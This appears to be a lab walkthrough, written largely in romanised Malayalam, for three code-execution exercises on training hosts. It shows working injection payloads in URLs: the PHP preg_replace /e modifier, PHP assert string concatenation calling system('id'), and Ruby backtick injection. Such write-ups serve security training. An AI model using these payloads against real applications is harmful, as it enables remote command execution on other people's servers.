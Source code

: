 # Code Execution 03
-->ivide entho regex ine patiyan parayunath. ie, /e
-->lab open chyuka.open chyuna samayath oru site load aakum
-->http://ptl-c65f7131-b5504393.libcurl.so/?new=hacker&pattern=/lamer/&base=Hello%20lamer
-->ivide /lamer/ enn sthalath /lamer/e/&... enn kodukanam.entho regex aan.apol error varum:
```
#   
**Notice**: Use of undefined constant hacker - assumed 'hacker' in **/var/www/index.php(14) : regexp code** on line **1**
```
-->ini new=hacker enna sthalath hacker mati phpinfo() idanam.apol namuk php info page kitum
-->so ini phpinfo() mati namuk code execution nadathan patumon nokam ie,
-->`http://ptl-c65f7131-b5504393.libcurl.so/?new=system(%22id%22)&pattern=/lamer/e&base=Hello%20lamer`
-->ipol id kanikunund.so lab il ulla path ilek code execution chythal lab solve aakum ok

# Code Execution 04
-->This example is based on the function `assert`.
-->When used incorrectly, `assert` will evaluate the value received. This behaviour can be used to gain code execution.
-->ee lab code execution 01 pole thanne aan.avide double qoute work chytha samayath ivide  sigle qoute ittale error varum
->http://ptl-762375c6-a662bfcd.libcurl.so/?name=hacker   enna url il namal lab open akumbo pokum
-->so ivide hacker kazhinj single qoute iduka like =hacker'   apol error varum
-->http://ptl-762375c6-a662bfcd.libcurl.so/?name=hacker'.'josu   enn koduthal site il hackerjosu enn kanikum
-->so namuk ivide phpinfo() avumon nokam.athin ee hacker intem josuntem idayil phpinfo() itt nokam ie,
-->http://ptl-762375c6-a662bfcd.libcurl.so/?name=hacker'.phpinfo().'josu
-->apol phpinfo() page load aakunund.so namuk ivide code execution aakunundon nokam ok
-->http://ptl-762375c6-a662bfcd.libcurl.so/?name=hacker'.system("id").'josu
-->so code execution nadakunun.so ini namuk lab il parayuna path code execut chythal lab complete aakum ok

# Code Execution 05
-->ivide ruby aan application use chyunath
-->so lab open chyumbol namak oru website open aakum ie, http://ptl-76486239-621a9b08.libcurl.so/?username=hacker
-->so ivide single qoute double qoute oke itt test chyunu
-->double qoute idumbol error varunu.namuk file name code ... angane enthokeyo kitunu
-->so ini namuk oron test chyam
->http://ptl-76486239-621a9b08.libcurl.so/?username=hacker%22%2b%22josu%22%2b%22
-->enn kodukumbol hackerjosu enn site il kanikunu sherikum `=hacker"+"josu"+"`   ennan kodukendath.karanam plus symbol ittal server vijarikum ath space aanen.namuk ivide concatnation vendiyan plus use chyyunath.so + symbol namal url encode chyanam ok.apol hacker+josu=hackerjosu aayi marum.ok
-->ini namuk code execution chyam
-->ruby il code execution chyumbol backticks use chyanam ie, (``)
-->so ivide chyumbol josu matanam athupole josu n koduthitulla double qoutes um mati venam backtick itt code execution chyan ie,
-->http://ptl-76486239-621a9b08.libcurl.so/?username=hacker%22%2b`id`%2b%22
-->ipol id kanikum.ini namuk munethe pole lab complete chyam ok
